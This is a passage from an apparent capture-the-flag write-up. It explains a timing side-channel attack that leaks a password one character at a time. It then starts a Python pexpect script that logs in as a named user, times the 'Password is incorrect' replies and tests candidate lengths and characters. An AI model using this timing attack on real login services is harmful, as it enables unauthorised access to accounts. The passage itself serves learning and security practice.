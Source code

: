 Immediately, my first idea is that this is a timing sidechannel attack. In short, based on the amount of time taken by the server to respond to our request, we
can leak the password, one character at a time. The assumption is:
- If the current character is wrong, the server will bail out immediately
- If the current character is right, the server will start processing the next character

If the next character check takes a disproportionately long amount of time, this increase in response time can be observed and serves as a side-channel attack.
Let's prepare some code to utilize this sidechannel:

```python
#!/usr/bin/env python
import io
import argparse
import statistics
import sys
import itertools
import threading
import time
import pexpect
from typing import *

# How many measurements to average
average_count = 5
# Alphabet to use when iterating over passwords
alphabet = """ !"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~"""
# Max password length
max_pass_length = 23
# Max concurrent connections
max_connections = 5


def measure_time(password: str, p: pexpect.spawn) -> float:
    times = []
    for i in range(0, average_count):
        p.expect("Username: ")
        p.sendline("ax.arwen")
        p.expect("Password: ")

        p.sendline(password)
        current = time.time()
        idx = p.expect([">> Password is incorrect", "Ready."])
        if idx == 1:
            print(f"Found correct password while measuring time: {password}")
        now = time.time()

        delta = now - current
        times.append(delta)

    return statistics.mean(times)


def check_lengths(p: pexpect.spawn):
    for i in range(0, 20):
        duration = measure_time("A" * i, p)
        print(f"Length: {i}, average duration {duration * 1000.0}ms ")


def swapchar(input: str, position: int, replacement: str) -> str:
    b = bytearray(input.encode("ascii"))
    b[position] = replacement.encode("ascii")[0]
    return b.decode("ascii")


```